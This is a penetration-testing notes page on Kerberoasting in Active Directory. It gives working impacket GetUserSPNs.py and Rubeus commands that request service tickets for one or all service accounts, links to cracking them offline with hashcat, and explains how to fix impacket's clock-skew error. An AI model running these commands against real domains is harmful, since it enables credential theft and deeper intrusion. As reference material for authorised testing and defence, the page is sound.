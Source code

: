 # Kerberoasting

**Any** domain user can retrieve a service ticket that is encrypted with the NTLM hash of the service owner in an Active Directory environment. Often the accounts that own a particular service are computer accounts, but are sometimes user accounts (called service accounts). These service accounts are said to be "Kerberoastable." With the hash-encrypted service ticket in hand, you can attempt to crack the encryption offline and use the cracked hash for further access into the environment.

It is possible to enumerate Kerberoastable domain users by finding those whose list of [[service-principal-name|service principal names (SPNs)]] is not null.

![Kerberoasting Flow](kerberoasting.png)

---

## Discover which Users are "Kerberoastable"

On Linux or Windows (collectors for both):
- [[bloodhound#Discover Kerberoastable Users|BloodHound]]

On Linux:
- [[pywerview#Gather Users that are kerberoasting Kerberoastable|pywerview]]
- [[windapsearch#Enumerate all users with service principal names for kerberoasting|windapsearch]]

```bash
GetUserSPNs.py $DOMAIN/$DOMAIN_USER[:$DOMAIN_USER_PASSWORD] [-hashes $LMHASH:$NTLMHASH] -dc-ip $DC_IP
```

---

## Kerberoast a Particular Domain User from Linux (credentials required)

```bash
GetUserSPNs.py $DOMAIN/$DOMAIN_USER[:$DOMAIN_USER_PASSWORD] [-hashes $LMHASH:$NTLMHASH] -dc-ip $DC_IP -request-user $SERVICE_USERNAME
```

- `$SERVICE_USERNAME` is the username of the service account (not the full [[service-principal-name|SPN]], just the username)

---

## Automatically Exploit All Kerberoastable Users on the Domain from Linux (credentials required)

```bash
GetUserSPNs.py $DOMAIN/$DOMAIN_USER[:$DOMAIN_USER_PASSWORD] [-hashes $LMHASH:$NTLMHASH] -dc-ip $DC_IP -request
```

---

## Kerberoast a Particular Domain User from a Domain-Joined Windows Computer

- [[Kerberoast#Kerberoast a Particular User|From a Covenant Grunt]]

---

## Automatically Exploit All Kerberoastable Users on the Domain from a Domain-Joined Windows Computer

Must be executed in the context of at least a domain user account.

```powershell
Rubeus.exe kerberoast
```


---

## [[hashcat#Offline dictionary attack against a Service Ticket kerberoasting Kerberoasting|Crack the Service Ticket with Hashcat]]

---

## "Clock skew is too great" impacket error

If you get this error, you need to synchronize your system's time with the time of the domain controller.

1. Figure out the domain controller's time

    ```bash
    $ sudo ntpdate $DOMAIN_CONTROLLER_IP
	14 Jan 19:08:30 ntpdate[16001]: step time server 10.10.10.110 offset 7200.165851 sec
    ```

2. Disable NTP

    ```bash
    sudo timedatectl set-ntp false
    ```

3. Manually set your time to the domain controller's time

    ```bash
    sudo timedatectl set-time $TIME
    ```
	
	- `$TIME` should be in the format `HH:MM:SS`

4. The error should be solved now. Do what you need to do!

5. Reenable NTP to get your time back to its original

    ```bash
    sudo timedatectl set-ntp true
    ```

